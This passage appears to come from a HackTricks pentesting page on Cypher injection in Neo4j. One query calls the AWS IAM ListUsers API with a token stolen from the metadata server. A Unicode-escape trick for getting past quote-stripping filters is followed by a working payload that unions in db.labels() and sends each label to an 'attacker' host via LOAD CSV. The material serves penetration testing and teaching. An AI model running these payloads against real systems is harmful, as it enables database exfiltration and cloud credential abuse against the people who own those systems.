 #### Contact AWS API directly

{% code overflow="wrap" %}
```sql
CALL apoc.load.csvParams('https://iam.amazonaws.com/?Action=ListUsers&Version=2010-05-08', {`X-Amz-Date`:$date, `Authorization`: $signed_token, `X-Amz-Security-Token`:$token}, null, ) YIELD list 
```
{% endcode %}

* $data is formatted as %Y%m%dT%H%M%SZ
* $token is the token we got from the metadata server
* $signed\_token is calculated according to https://docs.aws.amazon.com/general/latest/gr/signing\_aws\_api\_requests.html

## WAF Bypass

### Unicode injection

In Neo4j >= v4.2.0, it's often possible to **inject Unicode using “\uXXXX”**. For example, you can use this method if the **server tries to remove characters** such as: ‘, “, \` and so on.

This may not work if a letter follows the Unicode escape sequence. It's **safe to add a space** afterward or another Unicode notation.

For example, if the server removes single quotes, and the query looks like the following:

```sql
MATCH (a: {name: '$INPUT'}) RETURN a 
```

It is possible to inject:

{% code overflow="wrap" %}
```sql
\u0027 }) RETURN 0 as _0 UNION CALL db.labels() yield label LOAD CSV FROM "http://attacker/ "+ label RETURN 0 as _o // 
```
{% endcode %}

## References

* [https://www.varonis.com/blog/neo4jection-secrets-data-and-cloud-exploits](https://www.varonis.com/blog/neo4jection-secrets-data-and-cloud-exploits)
* [https://infosecwriteups.com/the-most-underrated-injection-of-all-time-cypher-injection-fa2018ba0de8](https://infosecwriteups.com/the-most-underrated-injection-of-all-time-cypher-injection-fa2018ba0de8)

<details><summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks Cloud ☁️</strong></a> -<a href="https://twitter.com/hacktricks_live"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary></details>
